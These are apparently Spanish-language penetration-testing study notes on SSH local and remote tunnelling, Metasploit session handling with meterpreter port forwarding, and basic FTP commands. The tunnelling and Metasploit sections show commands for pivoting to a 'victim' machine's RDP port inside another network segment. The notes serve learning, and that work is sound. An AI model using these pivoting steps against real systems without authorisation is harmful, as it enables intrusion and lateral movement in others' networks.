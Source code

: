 Ver puertos abiertos en nuestra máquina: lsof -i -P -n

## SSH ##

Protocolo de acceso remoto a través de un canal seguro de datos.
El port forwarding permite ejecutar aplicaciones en remoto en tu PC desde otro con el argumento: -X
Para modificar archivo de configuracion: /etc/ssh/sshd_config

		## Tunel SSH

		- Creamos un tunel para conectarnos a una máquina que se encuentra en otro segmento de la red.
		- Estas dos máquinas tienen acceso entre sí aunque no esten en el mismo segmento.
		- Comprobación: Un ping a la IP.
		- Queremos saber si el puerto de RDP esta abierto, para ello: telnet IP_VICTIMA 3389 (Puerto de RDP)
		- Para crear el tunel:
		  -->ssh -L "IP's que se puedan conectar":"Puerto que vamos a abrir":"IP_VICTIMA_2":"Puerto RDP" Usuario:localhost
		  -->ssh -L 0.0.0.0:8080:192.168.X.X:3389 hacker@localhost	
		- Desde nuestra máquina: xfreerdp /v:IP_VICTIMA /u: USUARIO /port: PUERTO RDP
		- Cogemos un puerto externo y lo ponemos en nuestra maquina

		## Tunel remoto SSH

		- Sirve para abrir un puerto remoto y poder conectarse
		- ssh -R "puerto a abrir":"0.0.0.0":"puerto que esta en eschucha" "usuario"@"ip"
		- Cogemos un puerto nuestro y lo ponemos en su máquina
	
		## Tunel con metasploit
		
		1. Iniciamos msfconsole: $msfconsole
                2. Nos conectamos por SSH: use auxiliary/scanner/ssh/ssh_login
                3. Cambiamos la shell a meterpreter: use post/multi/manage/shell_to_meterpreter
                4. Nos metemos dentro de la sesión generada:
                        - Para listar las sesiones: sessions -l
                        - Para seleccionarla: sessions -i NumeroDeLaSesión

                5. Dentro de la consola de meterpreter, podemos hacer "help" para que nos muestre los comando, vamos a utilizar portfwd para hacer túneles dentro de la red.
                6. Portfwd:
                        - Túnel remoto: portfwd add -R -l {puertoLocal} -p {puertoRemoto} -L {DireccionRemota}
                        - Túnel local: portfwd add -l {puertoLocal} -p {puertoRemoto} -r {DireccionRemota}

## FTP ##

Es un protocolo de transferencia de archivos en texto claro, puerto predeterminado el 21.
Hay dos tipos: Activo (21 control y 20 transferencia) y Pasivo (21 contro y puertos altos transferencia).

Realizar conexion: ftp IP PORT
Subir archivos: put archivo
Descargar archivos: get archivo
Ejecutar comandos en tu ordenador local: !comando
